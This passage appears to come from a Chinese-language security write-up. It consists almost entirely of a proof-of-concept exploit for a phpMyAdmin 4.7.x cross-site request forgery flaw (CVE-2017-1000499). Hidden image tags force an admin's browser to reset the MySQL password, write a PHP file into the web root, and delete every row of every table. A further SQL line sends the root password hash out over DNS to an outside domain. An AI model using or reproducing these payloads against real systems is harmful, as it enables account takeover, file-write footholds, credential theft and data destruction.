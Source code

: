 POC如下：

```
# Exploit Title: phpMyAdmin 4.7.x - Cross-Site Request Forgery
# Date: 2018-08-28
# Exploit Author: VulnSpy
# Vendor Homepage: https://www.phpmyadmin.net/
# Software Link: https://www.phpmyadmin.net/downloads/
# Version: Versions 4.7.x (prior to 4.7.7)
# Tested on: php7 mysql5
# CVE: CVE-2017-1000499

# Exploit CSRF - Modifying the password of current user

<p>Hello World</p>
<img src="
http://7f366ec1afc5832757a402b5355132d0.vsplate.me/sql.php?db=mysql&table=user&sql_query=SET%20password
%20=%20PASSWORD(%27www.vulnspy.com%27)" style="display:none;" />

# Exploit CSRF - Arbitrary File Write

<p>Hello World</p>
<img src="
http://7f366ec1afc5832757a402b5355132d0.vsplate.me/sql.php?db=mysql&table=user&sql_query=select
'<?php phpinfo();?>' into outfile '/var/www/html/test.php';"
style="display:none;" />

# Exploit CSRF - Data Retrieval over DNS

SELECT LOAD_FILE(CONCAT('\\\\',(SELECT password FROM mysql.user WHERE
user='root' LIMIT 1),'.vulnspy.com\\test'));

# Exploit CSRF - Empty All Rows From All Tables

<p>Hello World</p>
<img src="
http://7f366ec1afc5832757a402b5355132d0.vsplate.me/import.php?db=mysql&table=user&sql_query=DROP+PROCEDURE+IF+EXISTS+EMPT%3B%0ADELIMITER+%24%24%0A++++CREATE+PROCEDURE+EMPT%28%29%0A++++BEGIN%0A++++++++DECLARE+i+INT%3B%0A++++++++SET+i+%3D+0%3B%0A++++++++WHILE+i+%3C+100+DO%0A++++++++++++SET+%40del+%3D+%28SELECT+CONCAT%28%27DELETE+FROM+%27%2CTABLE_SCHEMA%2C%27.%27%2CTABLE_NAME%29+FROM+information_schema.TABLES+WHERE+TABLE_SCHEMA+NOT+LIKE+%27%25_schema%27+and+TABLE_SCHEMA%21%3D%27mysql%27+LIMIT+i%2C1%29%3B%0A++++++++++++PREPARE+STMT+FROM+%40del%3B%0A++++++++++++EXECUTE+stmt%3B%0A++++++++++++SET+i+%3D+i+%2B1%3B%0A++++++++END+WHILE%3B%0A++++END+%24%24%0ADELIMITER+%3B%0A%0ACALL+EMPT%28%29%3B%0A"
style="display:none;" />
```

[CVE-2017-1000499](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-1000499)

## 0x04 特殊版本GetShell

### 4.1 CVE-2013-3238
